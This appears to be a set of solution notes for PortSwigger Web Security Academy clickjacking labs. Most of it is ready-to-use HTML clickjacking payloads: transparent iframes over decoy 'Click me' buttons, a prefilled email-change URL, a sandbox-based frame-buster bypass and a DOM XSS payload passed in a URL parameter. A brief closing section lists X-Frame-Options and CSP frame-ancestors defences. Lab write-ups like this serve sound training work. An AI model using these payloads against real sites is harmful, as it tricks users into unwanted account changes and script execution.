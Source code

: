 # Clickjacking (UI redressing) 

## Lab: Basic clickjacking with CSRF token protection

(Could be) IMPORTANT: Enable third-party for `[*.]web-security-academy.net`, otherwise when you try to login in exploit server you will get `"Invalid CSRF token (session does not contain a CSRF token)"` because the session cookie is blocked.

```html
<style>
    body {
        position: relative;
    }

    iframe {
        width: 500px;
        height: 700px;
        z-index: 2;
        opacity: 0.0000001;
        position: absolute;
    }

    #div {
        z-index: 1;
        position: absolute;
        top: 480px;
        left: 40px;
        width: 100px;
        height: 40px;
    }
</style>
<body>
    <iframe src="https://0a8100b4031463b8879a493300590073.web-security-academy.net/my-account"></iframe>
    <div id="div">click</div>
</body>
```


## Lab: Clickjacking with form input data prefilled from a URL parameter

```html
<style>
   iframe {
   position:relative;
   width:500px;
   height: 700px;
   opacity: 0.0001;
   z-index: 2;
   }
   div {
   position:absolute;
   top:440px;
   left:80px;
   z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a3600110396f68980d6fd3500a00079.web-security-academy.net/my-account?email=wiene123r@normal-user.net"></iframe>
```



## Lab: Clickjacking with a frame buster script

```html
<style>
   iframe {
   position:relative;
   width:500px;
   height: 700px;
   opacity: 0.0001;
   z-index: 2;
   }
   div {
   position:absolute;
   top:440px;
   left:80px;
   z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a9b00e703c7f4ce8779b32300d800de.web-security-academy.net/my-account?email=wiene123r@normal-user.net" sandbox="allow-forms"></iframe>
```


## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```html
<style>
   iframe {
   position:relative;
   width:500px;
   height: 700px;
   opacity: 0.0001;
   z-index: 2;
   }
   div {
   position:absolute;
   top:440px;
   left:80px;
   z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a4c009d046d20528140c05c00ff00da.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=fwej@fwejo.com&subject=fweij&message=fweojf"></iframe>
```


## Lab: Multistep clickjacking

Dont know why this does not work.

```html
<style>
    body {
        position: relative;
    }

    #vic {
        width: 500px;
        height: 700px;
        z-index: 2;
        opacity: 0.1;
        position: absolute;
    }

    #div1 {
        z-index: 1;
        position: absolute;
        top: 490px;
        left: 40px;
    }

    #div2 {
        z-index: 1;
        position: absolute;
        top: 285px;
        left: 200px;
    }
</style>
<body>
    <div id="div1">Click me first</div>
    <div id="div2">Click me next</div>
    <iframe id="vic" src="https://0ab6000904f9708a813ac59100830033.web-security-academy.net/my-account"></iframe>
</body>
```


## Prevention

X-Frame-Options and Content Security Policy.

`X-Frame-Options: deny`  
`X-Frame-Options: sameorigin`  
`X-Frame-Options: allow-from https://normal-website.com`

`Content-Security-Policy: frame-ancestors 'self';`  
`Content-Security-Policy: frame-ancestors normal-website.com;`


